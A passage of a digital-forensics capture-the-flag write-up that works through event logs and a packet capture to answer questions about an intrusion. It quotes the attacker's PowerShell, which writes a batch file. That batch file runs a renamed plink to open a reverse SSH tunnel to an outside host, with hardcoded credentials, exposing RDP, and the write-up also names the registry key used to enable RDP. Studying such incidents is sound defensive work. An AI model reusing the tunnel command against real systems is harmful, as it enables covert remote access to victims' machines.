 - There is an base64 encoded command let's decode it

![image](https://github.com/user-attachments/assets/8800d647-cd2a-4879-954f-144f2ce0c3be)

![image](https://github.com/user-attachments/assets/879ed362-315b-461e-aec6-49bb4033dbe9)

- Looks Like the Attacker is Enabling RDP for enabling remote access.
  
##### - Answer: `HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\fDenyTSConnections`

<br>

#### Q27: There is a .bat file was created. Where is it? (Absolute Path including the filename)
```
*:\*****\******\*********\***.***
```
- From evtx

![batt](https://github.com/user-attachments/assets/e4b06d9f-98f3-498b-acc6-bfe4de6b5494)

- From pcap: the attacker used base64 again to write the file.

![image](https://github.com/user-attachments/assets/e8bf9fb3-421c-404e-ba61-86a9dbc59971)

![image](https://github.com/user-attachments/assets/b85a76ac-4342-49a2-9a68-64a87b05a7c7)

```
$batchContent = 'echo y|C:\Windows\Temp\ekern.exe -ssh -P 443 -l v1ctim -pw C@nt_D3f3nd -R 127.0.0.1:49800:192.168.20.147:3389 192.168.1.2'
$batchFilePath = 'C:\Users\Victim\Documents\FXS.bat'
Set-Content -Path $batchFilePath -Value $batchContent
```

##### - Answer: `C:\Users\Victim\Documents\FXS.bat`

<br>

#### Q28: As we noticed this hacker is smart. he never use the real filename. What is the real filename of the file he downloaded combined with its MD5 hash? <FILENAME.EXE>:MD5
```
*****.***:********************************
```
- Search for `ekern.exe` in event viewer and we got our answer, the real filename is Plink and md5=CC62BA67C1200202D1DA784EA0313408

![image](https://github.com/user-attachments/assets/bea969e9-598d-4f96-8e00-e4cf53bd1894)


##### - Answer: `plink.exe:CC62BA67C1200202D1DA784EA0313408`

<br>
